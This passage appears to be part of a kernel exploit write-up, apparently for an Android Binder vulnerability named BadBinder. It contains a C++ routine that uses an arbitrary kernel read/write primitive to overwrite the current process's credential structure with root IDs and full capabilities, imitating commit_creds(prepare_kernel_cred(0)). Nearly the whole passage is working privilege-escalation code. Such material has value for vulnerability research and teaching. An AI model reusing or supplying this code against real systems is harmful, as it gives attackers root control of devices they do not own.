 ## Overriding task_struct.cred with init_cred

```c
// struct cred init_cred = {
//      .usage              = ATOMIC_INIT(4),
//      .uid                = GLOBAL_ROOT_UID,
//      .gid                = GLOBAL_ROOT_GID,
//      .suid               = GLOBAL_ROOT_UID,
//      .sgid               = GLOBAL_ROOT_GID,
//      .euid               = GLOBAL_ROOT_UID,
//      .egid               = GLOBAL_ROOT_GID,
//      .fsuid              = GLOBAL_ROOT_UID,
//      .fsgid              = GLOBAL_ROOT_GID,
//      .securebits         = SECUREBITS_DEFAULT,
//      .cap_inheritable    = CAP_EMPTY_SET,
//      .cap_permitted      = CAP_FULL_SET,
//      .cap_effective      = CAP_FULL_SET,
//      .cap_bset           = CAP_FULL_SET,
//      .user               = INIT_USER,
//      .user_ns            = &init_user_ns,
//      .group_info         = &init_groups,
// };
void BadBinder::override_cred_with_init_cred()
{

    info("Overriding cred with init_cred");
    uint64_t cur_cred_ptr = (uint64_t)m_task_struct_ptr+ offsetof(struct task_struct, cred);
    info("\ttask_struct: 0x%lx", m_task_struct_ptr);
    info("\tcred_offset: 0x%lx", offsetof(struct task_struct, cred));
    info("\tcred: 0x%lx", cur_cred_ptr);
    uint64_t cur_cred = read_u64(cur_cred_ptr);
    info("\tcur_cred: 0x%lx", cur_cred);

    write_u64(cur_cred + offsetof(struct cred, uid), GLOBAL_ROOT_UID);
    write_u64(cur_cred + offsetof(struct cred, gid), GLOBAL_ROOT_GID);
    write_u64(cur_cred + offsetof(struct cred, suid), GLOBAL_ROOT_UID);
    write_u64(cur_cred + offsetof(struct cred, sgid), GLOBAL_ROOT_GID);
    write_u64(cur_cred + offsetof(struct cred, euid), GLOBAL_ROOT_UID);
    write_u64(cur_cred + offsetof(struct cred, egid), GLOBAL_ROOT_GID);
    write_u64(cur_cred + offsetof(struct cred, fsuid), GLOBAL_ROOT_UID);
    write_u64(cur_cred + offsetof(struct cred, fsgid), GLOBAL_ROOT_GID);
    write_u64(cur_cred + offsetof(struct cred, securebits), SECUREBITS_DEFAULT);
    write_u64(cur_cred + offsetof(struct cred, cap_inheritable), CAP_EMPTY_SET);
    write_u64(cur_cred + offsetof(struct cred, cap_permitted), CAP_FULL_SET);
    write_u64(cur_cred + offsetof(struct cred, cap_effective), CAP_FULL_SET);
    write_u64(cur_cred + offsetof(struct cred, cap_bset), CAP_FULL_SET);
    write_u64(cur_cred + offsetof(struct cred, cap_ambient), CAP_EMPTY_SET);
}
```

Since we have `arb r/w` just imitate `commit_creds(prepare_kernel_cred(0))`.

